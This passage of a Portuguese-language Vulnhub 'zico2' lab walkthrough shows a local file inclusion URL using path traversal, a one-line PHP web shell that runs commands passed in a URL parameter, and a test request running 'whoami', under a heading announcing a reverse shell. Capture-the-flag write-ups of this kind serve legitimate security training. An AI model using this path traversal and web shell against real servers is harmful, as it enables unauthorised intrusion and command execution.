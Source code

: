 ```bash
http://192.168.110.11/view.php?page=../../../../../usr/databases/charlie_teste.php
```

![](/assets/img/Vulnhub/zico2/exploit-ProvaConceito.png)


Ja que temos certeza que podemos executar codigo desta forma vamos ganhar o shell reverso


# Shell Reverso

Agora para ganhar o shell vamos implantar no nosso payload *"php do mal"* no lugar do "phpinfo()" para executar comando via URL

```php
<?php echo system($_GET["cmd"]); ?>
# Os dois dao certo
<?php echo shell_exec($_GET["cmd"]); exit; ?>
```

![](/assets/img/Vulnhub/zico2/shellReverso-payloadOK.png)


Vamos chamar o arquivo com o LFI para testa-lo

```
http://192.168.110.11/view.php?page=../../../../../usr/databases/charlie.php&cmd=whoami
```

![](/assets/img/Vulnhub/zico2/shellReverso-LFIOk.png)
